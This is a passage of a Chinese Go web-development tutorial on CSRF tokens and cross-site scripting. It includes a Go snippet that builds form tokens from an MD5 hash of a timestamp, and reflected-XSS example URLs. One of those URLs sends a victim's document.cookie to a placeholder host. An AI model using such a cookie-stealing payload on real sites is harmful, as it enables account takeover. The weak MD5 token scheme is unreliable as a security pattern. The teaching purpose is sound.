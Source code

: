 

因此我们需要实施第二步，在非 GET 方式的请求中增加随机数，这个大概有三种方式来进行：

- 为每个用户生成一个唯一的 cookie token，所有表单都包含同一个伪随机值，这种方案最简单，因为攻击者不能获得第三方的 Cookie (理论上)，所以表单中的数据也就构造失败，但是由于用户的 Cookie 很容易由于网站的 XSS 漏洞而被盗取，所以这个方案必须要在没有 XSS 的情况下才安全。
- 每个请求使用验证码，这个方案是完美的，因为要多次输入验证码，所以用户友好性很差，所以不适合实际运用。
- 不同的表单包含一个不同的伪随机值，我们在 4.4 小节介绍 “如何防止表单多次递交” 时介绍过此方案，复用相关代码

生成随机数 token
```go
h := md5.New()
io.WriteString(h, strconv.FormatInt(crutime, 10))
io.WriteString(h, "ganraomaxxxxxxxxx")
token := fmt.Sprintf("%x", h.Sum(nil))

t, _ := template.ParseFiles("login.gtpl")
t.Execute(w, token)
```        

### 避免 XSS 攻击

#### 什么是 XSS
XSS 攻击：跨站脚本攻击 (Cross-Site Scripting)，为了不和层叠样式表 (Cascading Style Sheets, CSS) 的缩写混淆，故将跨站脚本攻击缩写为 XSS。XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击 (一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与 Web 应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。

XSS 通常可以分为两大类：一类是存储型 XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。这个流程简单可以描述为：恶意用户的 Html 输入 Web 程序 -> 进入数据库 -> Web 程序 -> 用户浏览器。另一类是反射型 XSS，主要做法是将脚本代码加入 URL 地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS 目前主要的手段和目的如下：

- 盗用 cookie，获取敏感信息。
- 利用植入 Flash，通过 crossdomain 权限设置进一步获取更高权限；或者利用 Java 等得到类似的操作。
利用 iframe、frame、XMLHttpRequest 或上述 Flash 等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如：发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次 XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的 XSS 可以攻击一些小型网站，实现 DDoS 攻击的效果
#### XSS的原理
Web 应用未对用户提交请求的数据做充分的检查过滤，允许用户在提交的数据中掺入 HTML 代码 (最主要的是 “>”、“<”)，并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致 XSS 漏洞的产生原因。

接下来以反射性 XSS 举例说明 XSS 的过程：现在有一个网站，根据参数输出用户的名称，例如访问 url：http://127.0.0.1/?name=astaxie，就会在浏览器输出如下信息：
hello astaxie

如果我们传递这样的 url：http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>, 这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了 XSS 漏洞。那么恶意用户是如何盗取 Cookie 的呢？与上类似，如下这样的 url：http://127.0.0.1/?name=<script>document.location.href='http://www.xxx.com/cookie?'+document.cookie</script>，这样就可以把当前的 cookie 发送到指定的站点：www.xxx.com。你也许会说，这样的 URL 一看就有问题，怎么会有人点击？，是的，这类的 URL 会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？攻击者将缩短过后的 url 通过某些途径传播开来，不明真相的用户一旦点击了这样的 url，相应 cookie 数据就会被发送事先设定好的站点，这样子就盗得了用户的 cookie 信息，然后就可以利用 Websleuth 之类的工具来检查是否能盗取那个用户的账户。

#### 如何预防 XSS
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的 XSS 攻击。
